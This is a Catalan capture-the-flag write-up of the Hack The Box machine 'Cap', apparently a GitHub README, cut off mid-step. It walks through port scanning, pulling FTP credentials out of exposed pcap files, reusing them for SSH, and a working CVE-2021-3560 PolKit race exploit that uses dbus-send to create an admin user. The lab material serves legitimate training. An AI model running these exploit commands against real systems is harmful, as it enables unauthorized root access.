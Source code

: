 <p align="center">
  <img src="https://github.com/user-attachments/assets/9d0f2f9d-818d-42ae-9dd0-02cf12aeeba0" alt="cap-htb-header" width="700" height="500">
</p>

## NMAP scanning
Escaneig a través d'enviament de paquets TCP SYN a tots els ports del host per detectar quins estan oberts.
````bash
❯ nmap -p- --open -sS -v -n --min-rate=5000 -Pn -n 10.10.10.245

PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.45 seconds
           Raw packets sent: 72198 (3.177MB) | Rcvd: 72198 (2.888MB)
````
Amb els ports resultants de l'escaneig anterior, enumerar la versió i llençar els scripts per defecte de NMAP.
````bash
❯ nmap -sCV -p21,22,80 -Pn 10.10.10.245

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.05 seconds
                                                                            
````
Buscant la versió de SSH al launchpad d'Ubuntu ja es pot extreure que, segurament, el host té un Ubuntu Focal.

## Web enumeration
Un dels apartats de la web realitza un seguiment del tràfic de la xarxa durant 5 segons i l'exporta en un arxiu .pcap per poder analitzar-lo amb WireShark. Mirant la forma que té l'URL, _/data/[nº], es pot provar si altres números corresponen a algun arxiu .pcap d'un seguiment anterior de la xarxa.

![image](https://github.com/user-attachments/assets/ffdfe307-69b7-459a-aedb-d0c9141b534c)

Hi tenim accés, i podem descarregar tots els arxius per obrir-los amb WireShark i analitzar-los.

## User
El primer arxiu, _0.pcap_, ha capturat una sèrie de connexions fetes pel protocol FTP, entre les quals es troba l'autenticació d'un usuari anomenat _nathan_ amb la contrasenya _Buck3tH4TF0RM3!_.

![image](https://github.com/user-attachments/assets/9f11edef-f0f4-40ca-8dd6-acbba2c07f45)

Si provem les credencials al servidor FTP podem accedir-hi, i podem veure el que sembla el directori _home_ de l'usuari _nathan_. De la mateixa manera, si ens autentiquem mitjançant SSH amb les mateixes credencials, podem aconseguir una consola interactiva com aquest usuari, ja que les credencials es reutilitzen. 

![image](https://github.com/user-attachments/assets/432fb5fc-a3b0-4fd0-be71-4098c40999b4)

## Privilege escalation
Si fem un escaneig del host amb LinPEAS, ens marca que és vulnerable al CVE-2021-3560. Aquesta vulnerabilitat, que afecta a PolKit, permet la creació d'un nou usuari amb privilegis d'administrador al sistema per mitjà de la omissió de comprovació de credencials per les peticions de D-Bus. L'explotació funciona de la següent manera:
1. Es mesura el temps que tarda la comanda en executar-se.
````bash
> time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:ileisd string:"This is not a pwned user" int32:1
   real	0m0.005s
   user	0m0.002s
   sys	0m0.000s
````
2. Es mata la comanda a la meitat del temps, quan PolKit encara està processant-la, mitjançant un petit script de bash.
````bash
> dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:ileisd string:"This is not a pwned user" int32:1 & sleep 0.002s ; kill $!
````
3. Un cop creat l'usuari
